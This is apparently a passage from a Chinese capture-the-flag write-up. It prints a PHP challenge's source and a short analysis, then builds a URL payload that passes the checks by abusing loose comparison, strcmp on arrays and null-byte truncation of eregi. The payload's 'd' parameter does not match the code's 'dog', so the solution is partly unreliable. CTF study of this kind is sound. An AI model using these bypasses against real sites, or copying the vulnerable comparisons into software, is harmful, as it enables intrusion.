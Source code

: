 	flag{C00ki3_n0m_n0m_n0m}

## php是最好的语言

[题目地址](http://218.76.35.75:20114/index.php "题目地址")


打开后有源代码
	
	<?php
	show_source(__FILE__);
	$v1=0;$v2=0;$v3=0;
	$a=(array)json_decode(@$_GET['foo']);
	if(is_array($a)){
    	is_numeric(@$a["bar1"])?die("nope"):NULL;
    	if(@$a["bar1"]){
    	    ($a["bar1"]>2016)?$v1=1:NULL;
    	}
    	if(is_array(@$a["bar2"])){
        	if(count($a["bar2"])!==5 OR !is_array($a["bar2"]	[0])) die("nope");
    	    $pos = array_search("nudt", $a["a2"]);
    	    $pos===false?die("nope"):NULL;
    	    foreach($a["bar2"] as $key=>$val){
    	        $val==="nudt"?die("nope"):NULL;
    	    }
    	    $v2=1;
    	}
	}
	$c=@$_GET['cat'];
	$d=@$_GET['dog'];
	if(@$c[1]){
	    if(!strcmp($c[1],$d) && $c[1]!==$d){
	        eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	        strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
	    }
	}
	if($v1 && $v2 && $v3){
    	include "flag.php";
    	echo $flag;
	}
	?>
分析：

	foo中有bar1，bar2，a2
    bar1的值不是数字且大于2016
    bar2是数组，其中的元素数为5，并且bar2的第一个元素是数组，bar2中有nudt
    a2为nudt
	cat[1]为一个数组
	dog和cat[0]中没有，3，1，c，可用00截断
	cat[0].dog中存在htctf2016

构造Payload

	http://218.76.35.75:20114/index.php?foo={"bar1":"9999a","bar2":[[1],1,2,3,0],"a2":["nudt",1,2,3,0]}&cat[0]=%00htctf2016&cat[1][]=2333&d=233
